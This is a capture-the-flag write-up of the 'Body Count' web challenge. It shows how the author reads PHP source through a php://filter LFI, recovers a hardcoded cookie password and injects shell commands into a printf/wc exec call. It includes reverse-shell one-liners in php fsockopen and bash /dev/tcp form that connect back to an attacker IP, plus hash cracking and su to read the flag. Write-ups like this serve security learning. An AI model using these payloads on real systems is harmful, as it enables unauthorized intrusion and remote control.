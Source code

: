 # Body Count

## Challenge details 
**Category** : Web  
**points** : 493  
**Description** : Here’s a character count service for you!  
                  http://chall.csivit.com:30202
                 
## Solution
First time in the website we see a black screen written but nothing intresting by observing the url `http://chall.csivit.com:30202/?file=wc.php` we can see that's it's the content
of the `wc.php` so i tried checking `robots.txt` and we got this :


```
Disallow: /?file=checkpass.php
```


In order to be able to see the content of `checkpass.php` we can  use a php filter 


```
http://chall.csivit.com:30202/?file=php://filter/convert.base64-encode/resource=checkpass.php
```


Using that we got the base64 of the `checkpass.php` after decoding it we got this :  
**checkpass.php**


```
<?php
$password = "w0rdc0unt123";
// Cookie password.
echo "IMPORTANT!!! The page is still under development. This has a secret, do not push this page.";

header('Location: /');
```
So we got two intresting things a password and note saying it's a cookie password and by looking to our cookies we find out a cookie with name of `password` and 
value `PASSWORD` we will leave it like this for now because we need to understand first how this service is running by checking the content of `wc.php`,
we can easily do that using the same technique we used earlier  


```
http://chall.csivit.com:30202/?file=php://filter/convert.base64-encode/resource=wc.php
```
And This is the content of the file :  
**wc.php**
```
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>wc as a service</title>
    <style>
        html,
        body {
            overflow: none;
            max-height: 100vh;
        }
    </style>
</head>

<body style="height: 100vh; text-align: center; background-color: black; color: white; display: flex; flex-direction: column; justify-content: center;">
    <?php
    ini_set('max_execution_time', 5);
    if ($_COOKIE['password'] !== getenv('PASSWORD')) {
        setcookie('password', 'PASSWORD');
        die('Sorry, only people from csivit are allowed to access this page.');
    }
    ?>

    <h1>Character Count as a Service</h1>
    <form>
        <input type="hidden" value="wc.php" name="file">
        <textarea style="border-radius: 1rem;" type="text" name="text" rows=30 cols=100></textarea><br />
        <input type="submit">
    </form>
    <?php
    if (isset($_GET["text"])) {
        $text = $_GET["text"];
        echo "<h2>The Character Count is: " . exec('printf \'' . $text . '\' | wc -c') . "</h2>";
    }
    ?>
</body>

</html>
```
By looking to the source code we can divide it into two parts 


#### Part One 
Our cookie password will get checked , in case of fail a message saying `Sorry, only people from csivit are allowed to access this page.` will appear and the rest 
of the code won't be executed due to the die() focntion . So we tried the password that we got earlier `w0rdc0unt123` and it worked now we can see the rest of the
webpage and pass to the second part 


#### Part Two
As we can see our input `Text`obtained by the GET form will be putten inside this command `printf '{text}' | wc -c`. We can easily bypass this and get a command execution
using this payload :  
`'; command # `  
* ` ' `  :  To close the first quote and complete the printf command  
* ` ; `  :  In order to specify a second command 
* `command`  :  This is the command tha we want to execute  
* `#`  :  To comment out the rest  


**Note** :  We will only get the last line of the result due to the exec focntion that only returns the last line of the result a way to bypass it is by adding `| head -n $line` after the command where $line represents the line you want to read but we will not need to do this here


So after that I tried `'; ls #` and this was the result : 
```
The Character Count is: wc.php
```
Bingo ! Our code injection worked now we will try to spawn a shell , at the begining i tried to do it with netcat and python but neither of those were present in the 
server so i did it using php and this was the command :   
```
php -r '$sock=fsockopen( "$your_adress_ip" , $port );exec("/bin/sh -i <&3 >&3 2>&3");'
```
The full command will be like this :
```
' ;  php -r '$sock=fsockopen( "$your_adress_ip" , $port );exec("/bin/sh -i <&3 >&3 2>&3");' #
```
Another way to do it is using the bach technique :  
```
bash -i >& /dev/tcp/$your_adress_ip/$port 0>&1
```
With that we were able to get a shell in the server and we were the user `www-data`  

```
www-data@9c9f6ae73053:/var/www/html$
````
After navigating a little bit inside the server I found two intresting files :   
* `flag.txt` : Which was located at `/ctf/system/of/a/down/` to find it you can use this `find / -iname "*flag*" ` .But we can't read it because of permissions, the only users who could read it are `root`
and `csictf`  
* `README` : A file located at `/ctf` and this was its content :
```
My password hash is 6f246c872cbf0b7fd7530b7aa235e67e.
```
So this is propably the password of the `csictf` user, all we need to do is crack it than su to csictf and read the flag . I wasn't able to crack it using john but  an online crackstation were able to crack it and this is the passsword `csictf` i think anyone 
could guess it  
Now we can change user to `csictf` using `su` and read the flag

#### The Flag 
```
csictf{1nj3ct10n_15_p41nfu1}
```











